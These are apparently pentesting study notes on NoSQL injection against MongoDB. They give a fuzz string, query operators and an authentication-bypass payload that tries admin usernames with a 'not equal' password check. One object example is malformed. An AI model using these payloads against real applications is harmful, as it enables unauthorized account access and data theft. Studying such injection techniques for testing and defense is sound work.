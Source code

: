 # NoSQL

## Fuzzing:
- MongoDB fuzz string: `%27%22%60%7B%0A%3B%24Foo%7D%0A%24Foo+%5CxYZ`
  - In plaintext:
    ```
    '"`{
    ;$Foo}
    $Foo \xYZ
    ```
  - In JS: ```'\"`{\r;$Foo}\n$Foo \\xYZ\u0000```
  - If this causes an error you can use backslash to remove a character at a time to see which are processed.
  - The null character `%00` or `\u0000` may cause everything following to be ignored

## Operators:
- $where --> where this is true
- $ne --> not equal to
- $in --> in an array
- $regex --> matches this regex
- Submitting:
  - Need to be nested objects: `{"username": {"$ne","invalid"}}` or as a query `username[$ne]=invalid`
  - Query to test for various admin users: `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Extracting data
